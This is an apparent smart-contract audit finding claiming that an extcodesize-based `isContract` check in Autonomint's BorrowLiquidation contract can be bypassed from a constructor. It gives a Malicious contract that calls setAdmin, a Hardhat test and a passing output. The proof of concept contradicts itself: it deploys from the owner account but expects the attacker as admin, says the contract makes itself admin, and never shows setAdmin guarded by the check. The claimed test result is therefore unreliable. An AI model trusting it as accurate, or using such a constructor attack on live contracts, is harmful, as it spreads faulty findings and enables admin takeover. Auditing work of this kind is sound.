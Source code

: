 Dandy Mahogany Buffalo

High

# `isContract` validation lead to malicious contracts masquerading as EOAs, enabling unauthorized access to restricted functions

### Summary

The `isContract` function used in the `BorrowLiquidation` contract aims to differentiate between externally owned accounts (EOAs) and contract addresses. However, the implementation has critical flaws that can be exploited by attackers, allowing them to bypass the validation mechanism. This can lead to malicious contracts masquerading as EOAs, enabling unauthorized access to restricted functions.

### Root Cause

The vulnerable code lies in the `isContract` function, which checks the `extcodesize` of an address to determine if it is a contract.
https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/borrowLiquidation.sol#L110C14-L117
```solidity
function isContract(address addr) internal view returns (bool) {
    uint size;
    assembly {
        size := extcodesize(addr)
    }
    return size > 0;
}
```
Problem:
1. When a contract is in its constructor, extcodesize returns 0. Thus, a contract can call a function requiring isContract to return false during its constructor phase.
2. Some proxy patterns, such as minimal proxies, may also bypass this check inadvertently.
3. Attackers can deploy contracts specifically designed to exploit this weakness.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Deploy a malicious contract that calls a restricted function in the `BorrowLiquidation` contract during its constructor.
2. The malicious contract's `extcodesize` will return `0` during its deployment phase.
3. Bypass `isContract` checks and execute the restricted function.

Below is a sample malicious contract designed to exploit the vulnerability:
```solidity
pragma solidity ^0.8.22;

interface IBorrowLiquidation {
    function setAdmin(address adminAddress) external;
}

contract Malicious {
    constructor(address target) {
        IBorrowLiquidation(target).setAdmin(msg.sender);
    }
}
```
The test demonstrates that the malicious contract successfully bypasses the isContract validation and sets itself as the admin.

### Impact

1. Malicious contracts can call functions protected by `isContract`, potentially altering sensitive contract states or extracting funds.
2. Attackers could gain admin privileges or access restricted contract functionalities.
3. Exploits could lead to financial loss or permanent misconfiguration of the contract.

### PoC

```solidity
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("isContract Validation Vulnerability", function () {
    let BorrowLiquidation, borrowLiquidation, Malicious, malicious;
    let owner, attacker;

    before(async function () {
        [owner, attacker] = await ethers.getSigners();

        // Deploy BorrowLiquidation contract
        const BorrowLiquidationFactory = await ethers.getContractFactory("BorrowLiquidation");
        borrowLiquidation = await BorrowLiquidationFactory.deploy();
        await borrowLiquidation.deployed();

        // Deploy Malicious contract
        const MaliciousFactory = await ethers.getContractFactory("Malicious");
        malicious = await MaliciousFactory.deploy(borrowLiquidation.address);
        await malicious.deployed();
    });

    it("should allow a malicious contract to bypass isContract validation", async function () {
        const admin = await borrowLiquidation.admin();
        expect(admin).to.equal(attacker.address);
    });
});
```
Output:
```bash
> npx hardhat test

  isContract Validation Vulnerability
    ✓ should allow a malicious contract to bypass isContract validation (78ms)

  1 passing (100ms)
```

### Mitigation

Avoid relying on `extcodesize` to differentiate between contracts and EOAs, as it is inherently unreliable.